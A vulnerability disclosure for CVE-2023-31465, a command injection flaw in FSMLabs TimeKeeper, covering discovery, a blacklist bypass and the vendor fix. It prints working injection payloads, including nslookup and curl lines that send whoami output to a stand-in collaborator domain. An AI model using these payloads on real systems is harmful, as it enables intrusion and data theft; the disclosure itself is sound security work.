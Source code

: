 # CVE-2023-31465 | TimeKeeper by FSMLabs - RCE
During a PT activity, we managed to find a Remote Command Execution vulnerability in TimeKeeper and, while fixing it, we had the opportunity to modify and evolve the payload.
In the first paragraph we are going to explain the discovery and exploitation of the vulnerability, and this was performed during the time of the penetration testing, while in the second paragraph 
we will show the fix attempts, the re-exploitation and the final countermeasure.


## TimeKeeper version 8.0.17

In the image below is represented the request that is employed by TimeKeeper in order to set the source of IPs that has to be synchronized.

![req](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/f6e13bf7-2755-40f4-8d8c-09cf66116815)

During our first analysis, we used some Windows and Linux concatenation strings with the `ping` command to check a potential RCE vulnerability. 
We first discovered it in the *arg2* query parameter, with the following payload appended to the **earliest** number value:

```
||ping -c 10 127.0.0.1
```

A time delay was triggered, so we kept testing with other techniques and payloads.

After some time, we uncovered the following payload, useful for retrieving hex-encoded information (the data has been hex-encoded with *xxd* in order to avoid cutting off due to the DNS protocol):

```
||nslookup $(xxd -pu <<< $(whoami)).OASTIFY.DOMAIN||x
```

Below you can observe, respectively:
* the malicious request;

![poc1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/1a99f5a7-939a-4bfd-aab9-f9226e0d3351)

* the burp collaborator DNS interactions with hex-data exfiltrated;

![poc2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/265b70a5-a80c-4dea-9143-5663f9aab18b)
 
* the hex-decoded results of `whoami` and `id` commands.

![poc3](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/61f12806-36ba-46b7-b0d0-c928e0b7275d)


## TimeKeeper version 8.0.28 (BETA)

After discovering the vulnerability, we contacted directly FSMLabs to notify about the critical vulnerability.
They thanked and asked us to conduct more tests on the BETA version to ensure that the vulnerability has been fixed in the meanwhile, as version 8.0.17 was over 2 years old at the time of testing 
(2023).

A blacklist was implemented for some characters, such as: |, &, *, $, <, >, (, ), -. The previous payload, then, could not be used anymore. However, curly brackets were not
blacklisted, so we tried with the *bash expansion* technique.

Specifically, the following payload was injected:

```
;{curl,`whoami`.[collaborator_domain]};a
```

and we were still able to conduct a remote command execution.


## Remediation

The FSMLabs has fixed the vulnerability in TimeKeeper version 8.0.28.


## Vulnerable version of TimeKeeper

As a result of our testing, versions 8.0.17 through 8.0.27 are vulnerable to RCE.


## Discovered by

Francesco Iaria

Riccardo Degli Esposti

Claudio Rimensi

Francesco Varotto
